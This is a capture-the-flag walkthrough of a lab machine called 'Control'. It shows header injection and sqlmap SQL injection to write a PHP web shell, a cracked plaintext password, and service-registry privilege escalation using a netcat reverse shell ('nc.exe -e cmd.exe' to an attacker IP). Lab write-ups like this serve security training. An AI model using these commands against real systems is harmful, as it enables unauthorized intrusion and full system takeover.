


# Control 
- [Control](#control)
  - [Enumeration](#enumeration)
  - [Exploits - Work](#exploits---work)
  - [User](#user)
  - [PrivEsc](#privesc)
  - [Root](#root)
## Enumeration 
[Nmap-File](Control-Enum.txt)

First thing to check based on the nmap is port 80. Basic website with lorem ipsum, and dirbuster does not reveal more. Source code shows an IP address regarding an ssl feature pending and the admin/login page gives an error 

> Access Denied: Header Missing. Please ensure you go through the proxy to access this page

This typically refers to the 'X-Forwarder-For' header so fire up burp and lets inject that header to the get request

This admin page shows a table and a search feature, looks like sqli...

## Exploits - Work

Using sql injection commands an error is shown, so time to use sqlmap to make quick work of this. Save the POST for a regular search through burp and execute a sqlmap.

    sqlmap -r productName -p productName --level=3 --risk=3 --DBMS=MYSQL

This yields basically nothing, however it did work therefore we might be able to leverage this for an os-shell or possibly read/write files. 

    sqlmap -r productName -p productName --level=3 --risk=3 --DBMS=MYSQL --os-shell

OS-shell failed to handle commands and the next thing to try is file-read looking at the windows default webroot
    
    sqlmap -r productName -p productName --level=3 --risk=3 --DBMS=MYSQL --file-read='c:/Inetpub/wwwroot/admin.php'

That failed to retrieve last thing is writing a file to that same directory and verify it was sent.

    sqlmap -r productName -p productName --level=3 --risk=3 --file-write=test.php --file-dest="c:\Inetpub\wwwroot\test.php"
    do you want confirmation that the local file 'shelly.php' has been successfully written on the back-end DBMS file system ('c:/Inetpub/wwwroot/shellys.php')? [Y/n] 
    [13:01:34] [INFO] retrieved: 69
    [13:01:34] [INFO] the local file 'shelly.php' and the remote file 'c:/Inetpub/wwwroot/shellys.php' have the same size (69 B)
    [13:01:34] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.167'

That worked as file was written which leaves getting a shell or enumerating manually through a php command shell.

For the first privelege escalation dump the database passwords and allow sqlmap to decrypt the hash to get:

    hector - l33th4x0rhector

Use these credentials in powershell to execute commands as Hector

    # $SecPassword = ConvertTo-SecureString 'l33th4x0rhector' -AsPlainText -Force
    # $Cred = New-Object System.Management.Automation.PSCredential('Fidelity\Hector', $SecPassword)
    # $s = New-PSSession -Credential $Cred
    # Invoke-Command -Session $s -ScriptBlock { type C:\Users\Hector\Desktop\user.txt }

## User 
>d8782dd01fb15b72c4b5ba77ef2d472b

## PrivEsc
Using the same methods in the first privesc execute commands to identify the weakness and based on the computer name Control I assume it is something with services as the registry key is called CurrentControlSet, time to enumerate for a weak service using the following command for different services I found RemoteRegistry, SecLogon, and BITS allowed full control

    # Invoke-Command -Session $s -ScriptBlock { C:\Windows\Temp\subinacl.exe /keyreg "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\RemoteRegistry" /display }
    # Invoke-Command -Session $s -ScriptBlock { C:\Windows\Temp\subinacl.exe /keyreg "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SecLogon" /display }
    /pace =control\hector 	ACCESS_ALLOWED_ACE_TYPE-0x0

	CONTAINER_INHERIT_ACE-0x2      INHERITED_ACE-0x10             

    Key and SubKey - Type of Access:

	Full Control

    Detailed Access Flags :

	KEY_QUERY_VALUE-0x1        KEY_SET_VALUE-0x2          KEY_CREATE_SUB_KEY-0x4     

	KEY_ENUMERATE_SUB_KEYS-0x8 KEY_NOTIFY-0x10            KEY_CREATE_LINK-0x20       DELETE-0x10000             

	READ_CONTROL-0x20000       WRITE_DAC-0x40000          WRITE_OWNER-0x80000        

With that detail I changed the key for ImagePath

    # Invoke-Command -Session $s -ScriptBlock { reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\RemoteRegistry" /t REG_EXPAND_SZ /v ImagePath /d "C:\Windows\Temp\nc.exe -e cmd.exe 10.10.16.92 9002" /f }
    - The operation completed successfully.
    # Invoke-Command -Session $s -ScriptBlock { sc.exe qc "remoteregistry" }
    - [SC] OpenService FAILED 5:
    # Invoke-Command -Session $s -ScriptBlock { sc.exe qc "seclogon" }
    [SC] QueryServiceConfig SUCCESS

    SERVICE_NAME: seclogon
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k netsvcs -p
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Secondary Logon

Bingo! SecLogon is the winner time to modify and restart...

    # Invoke-Command -Session $s -ScriptBlock { reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\seclogon" /t REG_EXPAND_SZ /v ImagePath /d "C:\Windows\Temp\nc.exe -e cmd.exe 10.10.16.92 9002" /f }
    - The operation completed successfully.
    PS C:\windows\temp> Invoke-Command -Session $s -ScriptBlock { sc.exe qc "seclogon" }
    Invoke-Command -Session $s -ScriptBlock { sc.exe qc "seclogon" }
    [SC] QueryServiceConfig SUCCESS

    SERVICE_NAME: seclogon
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\Temp\nc.exe -e cmd.exe 10.10.16.92 9002
Start a listener on port 9002 and start the service

    PS C:\windows\temp> Invoke-Command -Session $s -ScriptBlock { sc.exe start "seclogon" }

## Root

>8f8613f5b4da391f36ef11def4cec1b1
